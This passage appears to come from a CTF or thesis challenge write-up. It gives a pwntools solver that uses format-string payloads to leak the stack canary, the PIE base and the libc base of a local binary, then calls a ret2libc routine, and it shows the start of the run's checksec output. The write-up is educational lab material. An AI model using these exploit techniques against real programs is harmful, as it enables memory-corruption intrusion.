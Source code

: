 ```python

def leaks(r):
  r.sendlineafter(b">", "%p "*100)
  values = r.recvline().split()
  counter = 1
  print("\n")
  for i in values:
    if len(i) > 16 and i.endswith(b"00"):
      print(f"[*] Possible Canary:\nIndex: {counter} -> {i.decode()}\n")
    if (i.startswith(b"0x5")):
      print(f"[*] Possible PIE address:\nIndex: {counter} -> {i.decode()}\n")
    if (i.startswith(b"0x7f")):
      print(f"[*] Possible LIBC address:\nIndex: {counter} -> {i.decode()}\n")
    counter += 1

def pwn():
  # Find the overflow offset
  offset = find_boffset(1000)
  
  # Open a local process or a remote instance
  if LOCAL:
    r   = process(fname)
  else:
    r   = remote("0.0.0.0", 1337)

  # Uncomment to leak potential addresses
  #leaks(r)

  # Leak libc, PIE and canary
  r.sendlineafter(prompt, "%3$p %46$p %47$p")
  libc_addr, pie_addr, canary = r.recvline().split()
  
  # Calculate libc base from leaked function
  libc.address = int(libc_addr, 16) - 0x110151
  e.address    = int(pie_addr, 16) - (int(pie_addr, 16) & 0xfff)
  canary = int(canary, 16)
  print(colored("[+] Libc base @ " + str(hex(libc.address))))
  print(colored("[+] PIE base  @ " + str(hex(e.address))))
  print(colored("[+] Canary    @ " + str(hex(canary))))

  ret2libc(r, prompt, offset, canary)


if __name__ == "__main__":
  pwn()
```

### PoC 🏁

```console
➜  challenge git:(main) ✗ python solver.py 
[*] '/home/w3th4nds/github/Thesis/challenge8/challenge/challenge8'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for './challenge8'
[*] '/home/w3th4nds/github/Thesis/challenge8/challenge/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
```